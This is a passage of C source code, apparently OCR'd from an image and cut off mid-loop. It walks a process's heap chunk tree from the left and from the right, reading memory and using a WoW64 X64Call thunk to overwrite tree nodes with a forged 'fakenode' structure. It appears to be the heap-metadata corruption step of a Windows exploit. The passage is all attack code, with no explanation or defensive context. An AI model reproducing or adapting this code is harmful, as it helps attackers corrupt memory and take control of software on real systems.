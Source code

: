 ```
    UINT64 pFinalChunk = NULL;
    UINT64 pTempLeftChunk = pLeftChunk, pTempRightChunk = pRightChunk;
    UINT64 pTempRootChunk;
    pRootChunkAddr = pLeftChunk; // ====> traversal from left chunk
    while (pLeftChunk != 0 && pRightChunk != 0) {
        X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr, (UINT64)&pLeftChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
        X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr + 0x8, (UINT64)&pRightChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
        if (pTargetChunk == pRootChunkAddr & 0xffffffffffff0000) {
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr, (UINT64)&fakenode, (UINT64)sizeof(FAKETREENODE), (UINT64)&dwByte);
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr + 0x10, (UINT64)&pTempRootChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
            break;
        }
        pTempRootChunk = pRootChunkAddr;
        if (pLeftChunk > pRootChunkAddr) {
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pLeftChunk, (UINT64)&fakenode, (UINT64)sizeof(FAKETREENODE), (UINT64)&dwByte);
            pRootChunkAddr = pRightChunk;
            continue;
        }
        else if (pRootChunkAddr > pRightChunk) {
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRightChunk, (UINT64)&fakenode, (UINT64)sizeof(FAKETREENODE), (UINT64)&dwByte);
            pRootChunkAddr = pLeftChunk;
            continue;
        }
        if (pTargetChunk < pRootChunkAddr) {
            pRootChunkAddr = pLeftChunk;
            continue;
        }
        if (pTargetChunk > pRootChunkAddr) {
            pRootChunkAddr = pRightChunk;
            continue;
        }
    }

    pRootChunkAddr = pTempRightChunk; // ====> traversal from right chunk
    while (pLeftChunk != 0 && pRightChunk != 0) {
        X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr, (UINT64)&pLeftChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
        X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr + 0x8, (UINT64)&pRightChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
        if (pTargetChunk == pRootChunkAddr & 0xffffffffffff0000) {
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr, (UINT64)&fakenode, (UINT64)sizeof(FAKETREENODE), (UINT64)&dwByte);
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr + 0x10, (UINT64)&pTempRootChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
            break;
        }
        pTempRootChunk = pRootChunkAddr;
        if (pLeftChunk > pRootChunkAddr) {
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pLeftChunk, (UINT64)&fakenode, (UINT64)sizeof(FAKETREENODE), (UINT64)&dwByte);
            pRootChunkAddr = pRightChunk;
            continue;
        }
        else if (pRootChunkAddr > pRightChunk) {
            X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRightChunk, (UINT64)&fakenode, (UINT64)sizeof(FAKETREENODE), (UINT64)&dwByte);
            pRootChunkAddr = pLeftChunk;
```